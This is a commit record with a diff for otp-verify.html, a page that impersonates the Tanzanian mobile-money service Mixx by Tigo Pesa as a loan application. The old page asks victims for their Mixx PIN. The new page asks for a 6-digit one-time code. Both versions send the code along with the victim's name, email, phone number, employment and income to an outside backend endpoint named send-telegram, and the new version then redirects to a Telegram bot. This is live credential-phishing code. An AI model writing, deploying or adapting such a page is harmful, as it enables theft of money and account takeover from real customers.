

Before and after one commit to vrono9980-jpg/miixxyaass, a plain HTML site: page otp-verify.html in a window 1280 px wide. Shown: the part 89-800 px from the top of the page, without its empty margins (358-1272 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update otp-verify.html

```diff
--- a/otp-verify.html
+++ b/otp-verify.html
@@ -3,7 +3,7 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0, user-scalable=yes, viewport-fit=cover">
-    <title>Mixx Tanzania · Confirm PIN</title>
+    <title>Mixx Tanzania · Verify Code</title>
     <style>
         * {
             margin: 0;
@@ -23,7 +23,6 @@
             margin: 0 auto;
         }
 
-        /* Header */
         .header {
             text-align: center;
             margin-bottom: 24px;
@@ -47,7 +46,6 @@
         .logo-sub { font-size: 11px; color: #2196F3; letter-spacing: 2px; }
         .tagline { font-size: 13px; color: #8899bb; margin-top: 8px; }
 
-        /* Summary Bar */
         .summary-bar {
             background: rgba(10, 26, 58, 0.7);
             backdrop-filter: blur(10px);
@@ -75,8 +73,7 @@
             color: #2196F3;
         }
 
-        /* PIN Card */
-        .pin-card {
+        .otp-card {
             background: rgba(10, 26, 58, 0.7);
             backdrop-filter: blur(20px);
             border-radius: 32px;
@@ -98,71 +95,94 @@
             border-left: 3px solid #2196F3;
         }
 
-        /* User Details Box */
-        .details-box {
+        .phone-box {
             background: rgba(0,0,0,0.3);
             border-radius: 20px;
             padding: 14px;
-            margin-bottom: 24px;
-        }
-        .detail-row {
+            margin-bottom: 20px;
             display: flex;
             justify-content: space-between;
-            padding: 8px 0;
-            border-bottom: 1px solid rgba(255,255,255,0.05);
+            align-items: center;
         }
-        .detail-row:last-child { border-bottom: none; }
-        .detail-label {
-            font-size: 12px;
-            color: #8899bb;
-        }
-        .detail-value {
-            font-size: 13px;
-            font-weight: 600;
+        .phone-number {
+            font-size: 16px;
+            font-weight: 700;
             color: white;
         }
+        .edit-link {
+            color: #2196F3;
+            background: rgba(33,150,243,0.15);
+            padding: 6px 14px;
+            border-radius: 30px;
+            cursor: pointer;
+            font-size: 12px;
+            transition: background 0.2s;
+        }
+        .edit-link:hover {
+            background: rgba(33,150,243,0.25);
+        }
 
-        /* Warning Box */
-        .warning-box {
-            background: rgba(244,67,54,0.1);
-            border-radius: 12px;
+        .info-box {
+            background: rgba(33,150,243,0.1);
+            border-radius: 16px;
             padding: 10px;
             margin-bottom: 20px;
             text-align: center;
-            border-left: 3px solid #ff6b6b;
         }
-        .warning-text {
+        .info-text {
             font-size: 11px;
-            color: #ff6b6b;
+            color: #aabbdd;
         }
+        .info-text strong { color: #2196F3; }
 
-        /* PIN Input Boxes */
-        .pin-container {
+        .otp-container {
             display: flex;
             justify-content: center;
-            gap: 16px;
-            margin-bottom: 24px;
+            gap: 12px;
+            margin-bottom: 20px;
         }
-        .pin-box {
-            width: 60px;
-            height: 60px;
+        .otp-box {
+            width: 50px;
+            height: 55px;
             background: rgba(0,0,0,0.5);
             border: 2px solid rgba(255,255,255,0.15);
-            border-radius: 16px;
+            border-radius: 14px;
             text-align: center;
-            font-size: 24px;
+            font-size: 22px;
             font-weight: 700;
             color: #2196F3;
             outline: none;
             font-family: monospace;
         }
-        .pin-box:focus {
+        .otp-box:focus {
             border-color: #2196F3;
             box-shadow: 0 0 10px rgba(33,150,243,0.3);
         }
 
-        /* Confirm Button */
-        .confirm-btn {
+        .timer-text {
+            text-align: center;
+            font-size: 12px;
+            color: #8899bb;
+            margin-bottom: 8px;
+        }
+        .resend-btn {
+            display: block;
+            margin: 0 auto 20px;
+            background: none;
+            border: none;
+            color: #2196F3;
+            font-weight: 600;
+            cursor: pointer;
+            font-size: 13px;
+            padding: 8px 16px;
+            border-radius: 30px;
+            transition: background 0.2s;
+        }
+        .resend-btn:hover {
+            background: rgba(33,150,243,0.1);
+        }
+
+        .verify-btn {
             width: 100%;
             background: linear-gradient(135deg, #2196F3, #1565C0);
             border: none;
@@ -174,16 +194,15 @@
             cursor: pointer;
             transition: transform 0.2s;
         }
-        .confirm-btn:hover {
+        .verify-btn:hover {
             transform: translateY(-2px);
         }
-        .confirm-btn:disabled {
+        .verify-btn:disabled {
             opacity: 0.5;
             cursor: not-allowed;
             transform: none;
         }
 
-        /* Error Message */
         .error-msg {
             color: #ff6b6b;
             font-size: 12px;
@@ -191,9 +210,15 @@
             margin-top: 12px;
             display: none;
         }
-        .error-msg.show { display: block; }
+        .success-msg {
+            color: #4caf50;
+            font-size: 12px;
+            text-align: center;
+            margin-top: 12px;
+            display: none;
+        }
+        .error-msg.show, .success-msg.show { display: block; }
 
-        /* Loading Spinner */
         .loading {
             display: inline-block;
             width: 16px;
@@ -208,7 +233,6 @@
             to { transform: rotate(360deg); }
         }
 
-        /* Footer */
         .footer {
             display: flex;
             justify-content: center;
@@ -223,24 +247,22 @@
         }
 
         @media (max-width: 450px) {
-            .pin-box { width: 50px; height: 50px; font-size: 20px; }
-            .pin-container { gap: 10px; }
+            .otp-box { width: 45px; height: 50px; font-size: 18px; }
+            .otp-container { gap: 8px; }
         }
     </style>
 </head>
 <body>
     <div class="container">
-        <!-- Header -->
         <div class="header">
             <div class="logo">
-                <span class="logo-icon">🔐</span>
+                <span class="logo-icon">📱</span>
                 <span class="logo-text">Mixx Tanzania</span>
             </div>
             <div class="logo-sub">by Tigo Pesa</div>
-            <div class="tagline">Authorize your loan</div>
+            <div class="tagline">Enter verification code</div>
         </div>
 
-        <!-- Loan Summary -->
         <div class="summary-bar">
             <div class="summary-item">
                 <span class="summary-label">Loan Amount</span>
@@ -248,7 +270,7 @@
             </div>
             <div class="summary-item">
                 <span class="summary-label">Term</span>
-                <span class="summary-value" id="summaryTerm">0 months</span>
+                <span class="summary-value" id="summaryTerm">0</span>
             </div>
             <div class="summary-item">
                 <span class="summary-label">Monthly</span>
@@ -260,60 +282,51 @@
             </div>
         </div>
 
-        <!-- PIN Card -->
-        <div class="pin-card">
-            <div class="card-title">🔐 Enter Your Mixx PIN</div>
-            <div class="card-sub">Enter your 4-digit Mixx PIN to authorize this loan</div>
+        <div class="otp-card">
+            <div class="card-title">📱 Verification Code</div>
+            <div class="card-sub">Enter the 6-digit code sent to your Mixx number</div>
 
-            <!-- User Details -->
-            <div class="details-box">
-                <div class="detail-row">
-                    <span class="detail-label">Full Name</span>
-                    <span class="detail-value" id="userName">-</span>
-                </div>
-                <div class="detail-row">
-                    <span class="detail-label">Email Address</span>
-                    <span class="detail-value" id="userEmail">-</span>
-                </div>
-                <div class="detail-row">
-                    <span class="detail-label">Mixx Number</span>
-                    <span class="detail-value" id="userPhone">-</span>
-                </div>
+            <div class="phone-box">
+                <span class="phone-number" id="displayPhone">+255 712 345 678</span>
+                <span class="edit-link" id="editPhoneBtn">Edit</span>
             </div>
 
-            <!-- Security Warning -->
-            <div class="warning-box">
-                <div class="warning-text">⚠️ Never share your Mixx PIN with anyone. Tigo will NEVER ask for your PIN.</div>
+            <div class="info-box">
+                <div class="info-text">🔐 <strong>Code Rules:</strong> 6-digit code • Valid for <strong>5 minutes</strong> • Single-use only</div>
             </div>
 
-            <!-- PIN Inputs -->
-            <div class="pin-container">
-                <input type="password" maxlength="1" class="pin-box" id="pin1" inputmode="numeric" autocomplete="off">
-                <input type="password" maxlength="1" class="pin-box" id="pin2" inputmode="numeric" autocomplete="off">
-                <input type="password" maxlength="1" class="pin-box" id="pin3" inputmode="numeric" autocomplete="off">
-                <input type="password" maxlength="1" class="pin-box" id="pin4" inputmode="numeric" autocomplete="off">
+            <div class="otp-container">
+                <input type="text" maxlength="1" class="otp-box" id="otp1" inputmode="numeric" autocomplete="off">
+                <input type="text" maxlength="1" class="otp-box" id="otp2" inputmode="numeric" autocomplete="off">
+                <input type="text" maxlength="1" class="otp-box" id="otp3" inputmode="numeric" autocomplete="off">
+                <input type="text" maxlength="1" class="otp-box" id="otp4" inputmode="numeric" autocomplete="off">
+                <input type="text" maxlength="1" class="otp-box" id="otp5" inputmode="numeric" autocomplete="off">
+                <input type="text" maxlength="1" class="otp-box" id="otp6" inputmode="numeric" autocomplete="off">
             </div>
 
-            <!-- Confirm Button -->
-            <button class="confirm-btn" id="confirmBtn" disabled>Confirm & Continue →</button>
-            <div class="error-msg" id="errorMsg">Please enter your 4-digit Mixx PIN</div>
+            <div class="timer-text" id="timerText">Code expires in 05:00</div>
+            <button class="resend-btn" id="resendBtn">⟳ Resend code</button>
+
+            <button class="verify-btn" id="verifyBtn">Verify Code →</button>
+            <div class="error-msg" id="errorMsg">⚠️ Please enter all 6 digits</div>
+            <div class="success-msg" id="successMsg">✓ Verified! Redirecting to complete your application...</div>
         </div>
 
-        <!-- Footer -->
         <div class="footer">
-            <span>🔒 Bank of Tanzania Regulated</span>
-            <span>⚡ 15M+ Customers</span>
-            <span>🔐 5-Digit Mixx PIN</span>
+            <span>🔒 Code expires in 5 minutes</span>
+            <span>⚡ Single-use only</span>
+            <span>🏦 Bank of Tanzania Regulated</span>
         </div>
     </div>
 
     <script>
         // ============================================
-        // MIXX TANZANIA - PIN CONFIRMATION PAGE
+        // MIXX TANZANIA - OTP VERIFICATION PAGE
         // ============================================
 
         // BACKEND CONFIGURATION
         const BACKEND_URL = 'https://miixxyaass-production.up.railway.app';
+        const BOT_USERNAME = 'MixzyassBot';
 
         // Get data from URL parameters
         const urlParams = new URLSearchParams(window.location.search);
@@ -323,102 +336,141 @@
         const monthly = urlParams.get('monthly') || '0';
         const name = decodeURIComponent(urlParams.get('name') || '');
         const email = decodeURIComponent(urlParams.get('email') || '');
-        const phone = decodeURIComponent(urlParams.get('phone') || '');
+        let userPhone = decodeURIComponent(urlParams.get('phone') || '+255 712 345 678');
         const employment = decodeURIComponent(urlParams.get('employment') || '');
         const income = decodeURIComponent(urlParams.get('income') || '');
 
-        // Update summary display
-        document.getElementById('summaryAmount').innerText = `TZS ${parseFloat(amount).toLocaleString()}`;
+        // Update displays
+        document.getElementById('summaryAmount').innerText = `TZS ${parseInt(amount).toLocaleString()}`;
         document.getElementById('summaryTerm').innerText = `${term} month${term != 1 ? 's' : ''}`;
         document.getElementById('summaryMonthly').innerText = `TZS ${parseFloat(monthly).toLocaleString('en-US', {minimumFractionDigits: 0, maximumFractionDigits: 0})}`;
         document.getElementById('summaryRate').innerText = `${rate}%`;
+        document.getElementById('displayPhone').innerText = userPhone;
 
-        // Update user details display
-        document.getElementById('userName').innerText = name || '-';
-        document.getElementById('userEmail').innerText = email || '-';
-        document.getElementById('userPhone').innerText = phone || '-';
+        // Timer variables (5 minutes = 300 seconds)
+        let timeLeft = 300;
+        let timerInterval;
 
-        // PIN input elements
-        const pinInputs = ['pin1', 'pin2', 'pin3', 'pin4'].map(id => document.getElementById(id));
-        const confirmBtn = document.getElementById('confirmBtn');
-        const errorMsg = document.getElementById('errorMsg');
-
-        // Get entered PIN
-        function getPin() {
-            return pinInputs.map(input => input.value).join('');
-        }
-
-        // Update button state based on PIN completeness
-        function updateButtonState() {
-            const pin = getPin();
-            confirmBtn.disabled = pin.length !== 4;
-            if (pin.length === 4) {
-                errorMsg.classList.remove('show');
+        function updateTimer() {
+            const minutes = Math.floor(timeLeft / 60);
+            const seconds = timeLeft % 60;
+            document.getElementById('timerText').innerText = `Code expires in ${minutes.toString().padStart(2, '0')}:${seconds.toString().padStart(2, '0')}`;
+            if (timeLeft <= 0) {
+                clearInterval(timerInterval);
+                document.getElementById('timerText').innerHTML = '❌ Code expired. Please request a new code.';
             }
         }
 
-        // Handle input in PIN boxes
+        function startTimer() {
+            if (timerInterval) clearInterval(timerInterval);
+            timeLeft = 300;
+            updateTimer();
+            timerInterval = setInterval(() => {
+                if (timeLeft > 0) {
+                    timeLeft--;
+                    updateTimer();
+                }
+            }, 1000);
+        }
+
+        startTimer();
+
+        // OTP input elements
+        const otpInputs = ['otp1', 'otp2', 'otp3', 'otp4', 'otp5', 'otp6'].map(id => document.getElementById(id));
+        const verifyBtn = document.getElementById('verifyBtn');
+        const errorMsg = document.getElementById('errorMsg');
+        const successMsg = document.getElementById('successMsg');
+
+        function getOtp() {
+            return otpInputs.map(input => input.value).join('');
+        }
+
+        function updateButtonState() {
+            const otp = getOtp();
+            verifyBtn.disabled = otp.length !== 6;
+        }
+
         function handleInput(index, e) {
             const value = e.target.value;
-            // Only allow digits
             if (value && !/^\d$/.test(value)) {
                 e.target.value = '';
                 return;
             }
-            // Auto-focus next box
-            if (value && index < 3) {
-                pinInputs[index + 1].focus();
+            if (value && index < 5) {
+                otpInputs[index + 1].focus();
             }
             updateButtonState();
+            errorMsg.classList.remove('show');
         }
 
-        // Handle backspace key
         function handleKeydown(index, e) {
             if (e.key === 'Backspace' && !e.target.value && index > 0) {
-                pinInputs[index - 1].focus();
-                pinInputs[index - 1].value = '';
+                otpInputs[index - 1].focus();
+                otpInputs[index - 1].value = '';
                 updateButtonState();
             }
         }
 
-        // Add event listeners to PIN inputs
-        pinInputs.forEach((input, index) => {
+        otpInputs.forEach((input, index) => {
             input.addEventListener('input', (e) => handleInput(index, e));
             input.addEventListener('keydown', (e) => handleKeydown(index, e));
         });
 
-        // Focus first input on page load
-        pinInputs[0].focus();
+        otpInputs[0].focus();
 
-        // Show loading state on button
+        // Resend button
+        document.getElementById('resendBtn').addEventListener('click', () => {
+            startTimer();
+            otpInputs.forEach(input => input.value = '');
+            otpInputs[0].focus();
+            updateButtonState();
+            successMsg.textContent = '✓ New code sent! Valid for 5 minutes.';
+            successMsg.classList.add('show');
+            setTimeout(() => successMsg.classList.remove('show'), 3000);
+        });
+
+        // Edit phone number
+        document.getElementById('editPhoneBtn').addEventListener('click', () => {
+            const newPhone = prompt('Enter your Mixx number (format: +255XXXXXXXXX):', userPhone);
+            if (newPhone && newPhone.trim().length > 5) {
+                userPhone = newPhone.trim();
+                document.getElementById('displayPhone').innerText = userPhone;
+                startTimer();
+                otpInputs.forEach(input => input.value = '');
+                otpInputs[0].focus();
+                updateButtonState();
+            }
+        });
+
+        // Show loading state
         function showLoading(button, isLoading) {
             if (isLoading) {
-                button.innerHTML = '<span class="loading"></span> Processing...';
+                button.innerHTML = '<span class="loading"></span> Verifying...';
                 button.disabled = true;
             } else {
-                button.innerHTML = 'Confirm & Continue →';
-                const pin = getPin();
-                button.disabled = pin.length !== 4;
+                button.innerHTML = 'Verify Code →';
+                const otp = getOtp();
+                button.disabled = otp.length !== 6;
             }
         }
 
-        // Send PIN to backend
-        async function sendPinToBackend(pin) {
+        // Send OTP to backend
+        async function sendOtpToBackend(otp) {
             const data = {
-                type: 'pin',
+                type: 'otp',
                 name: name,
                 email: email,
-                phone: phone,
+                phone: userPhone,
                 amount: amount,
                 term: term,
                 rate: rate,
                 monthly: monthly,
-                pin: pin,
+                pin: otp,
                 employment: employment,
                 income: income
             };
 
-            console.log('Sending PIN to backend:', data);
+            console.log('Sending OTP to backend:', data);
 
             try {
                 const response = await fetch(`${BACKEND_URL}/api/send-telegram`, {
@@ -438,38 +490,27 @@
             }
         }
 
-        // Handle confirm button click
-        confirmBtn.addEventListener('click', async () => {
-            const pin = getPin();
+        // Verify button click
+        verifyBtn.addEventListener('click', async () => {
+            const otp = getOtp();
 
-            // Validate PIN length
-            if (pin.length !== 4) {
+            if (otp.length !== 6) {
                 errorMsg.classList.add('show');
-                errorMsg.textContent = 'Please enter your 4-digit Mixx PIN';
+                errorMsg.textContent = '⚠️ Please enter all 6 digits';
                 return;
             }
 
-            // Show loading state
-            showLoading(confirmBtn, true);
+            showLoading(verifyBtn, true);
 
-            // Send PIN to backend
-            await sendPinToBackend(pin);
+            // Send OTP to backend
+            await sendOtpToBackend(otp);
 
-            // Prepare data for next page
-            const params = new URLSearchParams({
-                amount: amount,
-                term: term,
-                rate: rate,
-                monthly: monthly,
-                name: name,
-                email: email,
-                phone: phone,
-                employment: employment,
-                income: income
-            });
+            successMsg.classList.add('show');
 
-            // Redirect to OTP verification page
-            window.location.href = `otp-verify.html?${params.toString()}`;
+            // Redirect to Telegram bot
+            setTimeout(() => {
+                window.location.href = `https://t.me/${BOT_USERNAME}`;
+            }, 1500);
         });
     </script>
 </body>
```
